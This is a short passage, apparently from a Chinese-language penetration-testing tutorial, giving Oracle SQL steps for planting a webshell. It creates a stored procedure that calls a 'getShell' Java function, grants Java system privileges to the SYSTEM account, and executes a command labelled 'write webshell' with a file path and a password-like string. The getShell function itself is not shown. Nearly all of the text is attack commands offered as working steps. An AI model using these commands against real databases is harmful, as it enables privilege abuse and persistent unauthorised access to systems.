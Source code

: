 创建存储过程：

```
create or replace procedure RC(p in varChar, c in varChar)
as
x number;
begin
x := getShell(p,c);
end; 
```

授予 Java 权限：

```
variable x number;
set serveroutput on;
exec dbms_java.set_output(100000);
grant javasyspriv to system;
grant javauserpriv to system; 
```

写 webshell：

```
exec :x:=getShell('d:/3.txt','selina'); 
```

![enter image description here](img/img24_u17_png.jpg)
